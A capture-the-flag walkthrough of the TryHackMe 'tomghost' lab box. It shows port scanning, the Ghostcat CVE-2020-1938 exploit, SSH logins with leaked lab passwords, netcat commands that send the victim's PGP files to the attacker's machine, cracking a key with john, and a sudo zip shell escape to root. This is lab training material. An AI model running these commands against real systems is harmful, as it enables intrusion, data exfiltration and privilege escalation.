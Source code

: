 # tomghost

### Initial Scan <a href="#initial-scan" id="initial-scan"></a>

**Kali**

```
nmap -A $VICTIM
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Scan all ports <a href="#scan-all-ports" id="scan-all-ports"></a>

**Kali**

```
nmap -sV -sT -O -p 1-65535 $VICTIM
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## TCP/8080 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM:8080 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## **Initial Access**

**Victim**

```
git clone https://github.com/Hancheng-Lei/Hacking-Vulnerability-CVE-2020-1938-Ghostcat.git 
cd Hacking-Vulnerability-CVE-2020-1938-Ghostcat/
python2 CVE-2020-1938.py $VICTIM -p 8009 -f WEB-INF/web.xml
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



### **TCP/22 - SSH** <a href="#tcp-22-ssh" id="tcp-22-ssh"></a>

**Kali**

```
ssh skyfuck@$VICTIM
Password: 8730281lkjlkjdqlksalks
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



### Netcat <a href="#netcat" id="netcat"></a>

**Kali(receiving)**

```
nc -l -p 1234 > credential.pgp
nc -l -p 1234 > tryhackme.asc
```

**Victim(sending)**

```
nc -w 3 $KALI 1234 < credential.pgp
nc -w 3 $KALI 1234 < tryhackme.asc
```

**Kali**

```
/opt/john/gpg2john tryhackme.asc > pgp.hash
john pgp.hash --wordlist=/usr/share/wordlists/rockyou.txt
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
gpg --import tryhackme.asc 
Password: alexandru
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
gpg --decrypt credential.pgp 
Password: alexandru
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation  <a href="#tcp-22-ssh" id="tcp-22-ssh"></a>

### **TCP/22 - SSH** <a href="#tcp-22-ssh" id="tcp-22-ssh"></a>

**Kali**

```
ssh merlin@$VICTIM
Password: asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
```

**Exploit:** [https://gtfobins.github.io/gtfobins/zip/](https://gtfobins.github.io/gtfobins/zip/)

**Victim**

```
sudo -l
```

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
```

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
